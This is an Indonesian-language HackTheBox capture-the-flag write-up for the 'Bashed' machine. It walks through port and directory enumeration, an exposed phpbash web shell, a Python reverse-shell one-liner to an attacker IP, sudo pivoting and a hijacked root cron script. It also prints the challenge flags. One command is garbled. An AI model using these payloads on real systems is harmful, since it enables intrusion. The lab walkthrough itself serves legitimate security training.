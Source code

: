 ```yaml
---
date: 2023-12-10T10:21:05+07:00
title: "HackTheBox: Bashed"
slug: "htb-bashed"
tags:
  - Linux
  - HackTheBox
  - Writeup
description: "Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted."
---
```

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.

IP: 10.129.39.120

---

## Information Gathering
Scan port yang terbuka:
```bash
$ nmap -Pn -p- -oN nmap_all_ports.txt --min-rate 1000 10.129.39.120
Nmap scan report for 10.129.39.120
Host is up (0.041s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```

Terdapat satu port terbuka, yaitu port 80 dengan service HTTP.

### Enumerasi HTTP
Cari direktori atau file menarik di port 80.
```bash
$ feroxbuster -u http://10.129.39.120 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -o feroxbuster.txt
301      GET        9l       28w      315c http://10.129.39.120/images => http://10.129.39.120/images/
200      GET        8l       35w     2447c http://10.129.39.120/images/logo.png
200      GET        8l       73w     2429c http://10.129.39.120/js/html5.js
200      GET      154l      394w     7477c http://10.129.39.120/single.html
200      GET       32l      116w     1222c http://10.129.39.120/css/carouFredSel.css
200      GET      680l     1154w    10723c http://10.129.39.120/css/common.css
---SNIP---
200      GET        0l        0w        0c http://10.129.39.120/php/sendMail.php
200      GET        1l      255w     4559c http://10.129.39.120/dev/phpbash.min.php
200      GET      216l      489w     8151c http://10.129.39.120/dev/phpbash.php
```

Terdapat dua file menarik, yaitu `phpbash.min.php` dan `phpbash.php`.

Ketika membuka file `phpbash.min.php`, kita mendapatkan halaman `shell`.

![phpbash.min.php-](image.png)

Selanjutnya, kita bisa melakukan reverse shell ke terminal kita supaya kita dapat leluasa menjalankan command.

```bash
$ nc -lnvp 1337
listening on [any] 1337
```

```bash
www-data@bashed:/var/www/html/dev# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
$ nc -lnvp 1337
listening on [any] 1337
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.120] 54284
$ whoami 
whoami
www-data
$
```

Sudah dapat shell, ternyata kita login sebagai `www-data`.

## Post Exploitation
Karena kita login sebagai pengguna dengan wewenang sedikit, maka kita perlu menaikkan wewenang kita ke yang lebih tinggi. Yaitu dengan Privilege Escalation.

### Linpeas
Jalankan linpeas, menemukan beberapa hal menarik.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
---SNIP---
╔══════════╣ Unexpected in root
/scripts
/initrd.img
/.bash_history
/vmlinuz
```

Dengan sudo tanpa password, kita bisa pindah ke akun `scriptmanager`.

```bash
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```

Cek direktori `/scripts`.
```bash
criptmanager@bashed:/scripts$ ls -lah
ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun  2  2022 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  205 Dec  9 19:13 test.py
-rw-r--r--  1 root          root            12 Dec  9 19:13 test.txt
```

Terlihat bahwa kita bisa mengubah `test.py`. Di dalam `test.py` terdapat perintah untuk membuat `test.txt`. Karena `test.txt` milik root, maka ada kemungkinan `test.py` dijalankan oleh root.

Jadi, kita ubah isi `test.py` menjadi revshell baru.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,s.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4"up2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; 
<eno(),1);os.dup2(s.fileno(),2);import pty; pty.spaw
scriptmanager@bashed:/scripts$
```

```bash
╭─  MidnightRumble  ~                             
╰─❯ nc -lnvp 1234                                   
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.12]
# whoami
whoami
root
#
```

### user.txt
```bash
scriptmanager@bashed:/home$ cat arrexel/user.txt
cat arrexel/user.txt
27b41f7431caf2b873952ce0ee982a02
```

### root.txt
```bash
# cat root.txt
cat root.txt
836161db4f4d3b069946ca8d8a20b67b
#
```
